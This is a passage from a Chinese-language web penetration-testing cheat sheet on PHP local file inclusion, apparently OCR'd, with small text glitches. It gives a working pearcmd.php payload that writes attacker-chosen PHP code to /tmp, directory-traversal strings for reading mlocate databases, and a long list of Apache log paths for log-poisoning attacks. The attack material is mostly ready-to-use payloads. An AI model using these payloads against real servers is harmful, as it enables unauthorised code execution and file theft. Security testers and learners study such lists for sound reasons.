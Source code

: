 当我们输入的file://参数被带入curl中执行时，原本的远程URL访问会被重定向到本地磁盘上，从而达到越权访问文件的目的

### 2.4 pearcmd.php文件包含
这个文件仅限于某个特定版本的Docker容器中存在, 可以本地执行代码/写马, 威力不小. 
参考: [[Docker PHP裸文件本地包含综述#[0x06 `pearcmd.php`的巧妙利用]( toc_0x06-pearcmdphp)]]

TL;DR
```
/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```
3\. 本地文件包含常见利用方式
----------------

### 3.1. 目录遍历

```
# linux 这两个文件存储着所有文件的路径，需要root权限
?file=../../../../../../../var/lib/mlocate/mlocate.db
?file=../../../../../../../var/lib/locate.db 
```

### 3.2. 包含日志

```
?ile=../../../../../../../../var/log/apache/error.log

# apache
../apache/logs/error.log
../apache/logs/access.log
../../apache/logs/error.log
../../apache/logs/access.log
../../../apache/logs/error.log
../../../apache/logs/access.log
../../../../../../../etc/httpd/logs/acces_log
../../../../../../../etc/httpd/logs/acces.log
../../../../../../../etc/httpd/logs/error.log
../../../../../../../etc/httpd/logs/error_log
../../../../../../../var/www/logs/access_log
../../../../../../../var/www/logs/access.log
../../../../../../../usr/local/apache/logs/access_log
../../../../../../../usr/local/apache/logs/access.log
../../../../../../../var/log/apache/access_log
../../../../../../../var/log/apache2/access_log
../../../../../../../var/log/apache/access.log
../../../../../../../var/log/apache2/access.log
../../../../../../../var/log/access_log
../../../../../../../var/log/access.log
../../../../../../../var/www/logs/error_log
../../../../../../../var/www/logs/error.log
../../../../../../../usr/local/apache/logs/error_l og
../../../../../../../usr/local/apache/logs/error.l og
../../../../../../../var/log/apache/error_log
../../../../../../../var/log/apache2/error_log
../../../../../../../var/log/apache/error.log
../../../../../../../var/log/apache2/error.log
../../../../../../../var/log/error_log
/etc/httpd/logs/access_log
/var/log/httpd/access_log

# 读配置文件找日志路径
/etc/httpd/conf/httpd.conf
/etc/init.d/httpd

#=============
# windows
```
